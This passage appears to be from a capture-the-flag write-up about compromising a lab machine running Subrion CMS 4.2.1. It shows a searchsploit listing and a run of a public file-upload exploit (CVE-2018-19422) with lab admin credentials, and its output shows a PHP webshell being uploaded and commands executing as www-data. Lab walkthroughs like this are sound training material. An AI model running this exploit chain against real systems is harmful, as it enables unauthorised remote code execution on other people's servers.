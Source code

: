 - Since we know that app is using `Subrion CMS v4.2.1`, I started looking for exploits. I found this [one](https://www.exploit-db.com/exploits/49876) and you also have it in searchsploit.

  ```
  searchsploit subrion
  ----------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                     |  Path
  ----------------------------------------------------------------------------------- ---------------------------------
  Subrion 3.x - Multiple Vulnerabilities                                             | php/webapps/38525.txt
  Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting                            | php/webapps/47469.txt
  Subrion Auto Classifieds - Persistent Cross-Site Scripting                         | php/webapps/14391.txt
  SUBRION CMS - Multiple Vulnerabilities                                             | php/webapps/17390.txt
  Subrion CMS 2.2.1 - Cross-Site Request Forgery (Add Admin)                         | php/webapps/21267.txt
  subrion CMS 2.2.1 - Multiple Vulnerabilities                                       | php/webapps/22159.txt
  Subrion CMS 4.0.5 - Cross-Site Request Forgery (Add Admin)                         | php/webapps/47851.txt
  Subrion CMS 4.0.5 - Cross-Site Request Forgery Bypass / Persistent Cross-Site Scri | php/webapps/40553.txt
  Subrion CMS 4.0.5 - SQL Injection                                                  | php/webapps/40202.txt
  Subrion CMS 4.2.1 - 'avatar[path]' XSS                                             | php/webapps/49346.txt
  Subrion CMS 4.2.1 - Arbitrary File Upload                                          | php/webapps/49876.py
  Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add Amin)                   | php/webapps/50737.txt
  Subrion CMS 4.2.1 - Cross-Site Scripting                                           | php/webapps/45150.txt
  Subrion CMS 4.2.1 - Stored Cross-Site Scripting (XSS)                              | php/webapps/51110.txt
  ----------------------------------------------------------------------------------- ---------------------------------
  Shellcodes: No Results
  ```
  
- Now simply run the exploit and you will get the shell.

  ```
  python3 49876.py -u http://10.10.32.50/subrion/panel/ --user admin --passw Scam2021
  [+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 
  
  [+] Trying to connect to: http://10.10.32.50/subrion/panel/
  [+] Success!
  [+] Got CSRF token: 9lH9wEwNeYxK7kdfcdy3lKzm15VhD86lB1Wb9bnY
  [+] Trying to log in...
  [+] Login Successful!
  
  [+] Generating random name for Webshell...
  [+] Generated webshell name: rzjahuztuwcvmng
  
  [+] Trying to Upload Webshell..
  [+] Upload Success... Webshell path: http://10.10.32.50/subrion/panel/uploads/rzjahuztuwcvmng.phar 
  
  $ whoami
  www-data
  
  ```